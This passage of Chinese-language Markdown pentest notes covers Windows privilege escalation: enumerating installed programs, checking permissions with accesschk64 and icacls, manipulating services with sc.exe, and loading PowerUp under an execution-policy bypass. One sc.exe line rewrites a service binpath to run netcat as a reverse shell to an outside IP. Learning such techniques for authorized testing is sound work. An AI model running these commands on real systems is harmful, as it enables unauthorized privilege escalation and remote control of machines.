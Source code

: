 ``` powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
- 已安裝程式
``` powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
## 常用測試工具
### accesschk64.exe 
```
accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```
### icacls
```
icacls C:\tasks\schtask.bat
```
### sc.exe
>[!warning] 小節重點
>是windows內建工具，如果使用powershell，要用`sc.exe`
```
sc query #顯示所有service
```
```
sc qc UsoSvc
```
```
sc config UsoSvc
```
```
sc start UsoSvc
```
```
sc stop UsoSvc
```
```
sc config UsoSvc binpath="nc.exe -nv 10.10.10.10 4444 -e cmd"
```
## 自動化工具
>[!warning ] 小節重點
>推薦一些自動化及半自動化列舉工具
### PowerUp
[PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)
- 導入PowerUp
``` cmd
C:\Users\user\Desktop\Tools\PowerUp>powershell -ep bypass
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\user\Desktop\Tools\PowerUp> . .\PowerUp.ps1
PS C:\Users\user\Desktop\Tools\PowerUp> Invoke-AllChecks
```
- `Invoke-AllChecks` : 執行所有列舉，AbuseFunction會教你能不能abuse
	- **ServiceName**: This is the name of the service
	- **Path:** This is where the program is located or run from
	- **ModifiableFile:** If we can abuse this service, this is the file that will be modified
	- **StartName:** This is who the service runs as. It is important that this user has higher privileges than our current privileges, otherwise it will be pointless in exploiting it. Generally we would like if it is running with **LocalSystem,** or **Administrator** privileges.
	- **CanRestart**: It is important this is **True**. We must have the ability to restart the service otherwise the changes can’t take place to escalate our privileges. If you have access to restart the machine that’s an option, but we generally want to avoid restarting machines if possible.
